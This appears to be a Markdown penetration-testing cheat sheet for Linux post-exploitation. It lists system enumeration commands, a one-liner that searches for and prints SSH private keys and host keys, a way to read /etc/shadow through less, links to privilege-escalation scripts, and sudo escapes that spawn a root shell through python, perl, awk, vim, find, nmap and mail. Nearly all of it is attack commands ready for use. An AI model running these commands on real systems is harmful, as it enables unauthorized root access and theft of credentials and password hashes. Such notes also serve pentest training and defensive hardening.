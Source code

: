 # Linux-Exploitation

## Internal Enumeration

#### ID and location
```
id
pwd
```

#### OS / Version / Architecture
```
cat /etc/*-release
uname -i
uname -a
uname -r
cat /proc/version
hostnamectl | grep Kernel
lsb_release -a (Debian based OSs)
```

#### Packaged installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
```

#### Running services and network services
```
ps aux
netstat -antup
```

#### Network
```
ifconfig
ip addr show
arp -a
```

#### Search a file
```
find . -name "*.txt"
```

#### Read SSH key
```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```


## Automated enumeration

<https://github.com/rebootuser/LinEnum>

<https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py>

<http://pentestmonkey.net/tools/audit/unix-privesc-check>

<https://raw.githubusercontent.com/swarley7/linuxprivchecker/master/linuxprivchecker.py>

## Sudoers - Privesc

##### Python
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```

##### Perl
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

##### CP + Chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

##### Awk
```
awk 'BEGIN {system("/bin/bash")}'
```

##### Less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash
```

##### Vim
```
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash
```

##### Find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

##### Bash
```
sudo -u root /bin/bash
```

##### Nmap
```
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

##### Mail
```
sudo mail --exec='!/bin/bash'
```
